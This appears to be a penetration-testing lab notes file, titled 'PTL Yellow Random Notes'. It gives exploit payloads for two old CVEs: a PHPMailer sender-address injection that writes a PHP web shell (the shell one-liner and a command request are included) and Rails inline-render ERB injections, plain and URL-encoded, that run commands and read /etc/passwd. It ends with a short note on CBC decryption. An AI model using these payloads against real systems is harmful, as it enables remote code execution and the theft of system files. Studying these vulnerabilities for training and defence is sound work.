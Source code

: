 ## PTL Yellow Random Notes

#### CVE-2016-10033: PHPMailer RCE

- "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1

```
<?php system($_GET['c']);?>
```

- /shell.php?c=cat /etc/passwd

#### CVE-2016-2098

- id = test
- id[inline] = <%= `id` %>
- id[inline] = <%25%3D%60id%60%25>
- /pages?id[inline]=<%25%3D%60cat /etc/passwd%60%25>

#### Cipher block chaining (CBC)

- Encryption 1st block => Enc_K(PlainText (+) IV) = CipherText
- Decryption 1st block => Dec_K(CipherText) (+) IV = PLAINTEXT
- Decrryption of bdmin return bdmin\00\00\00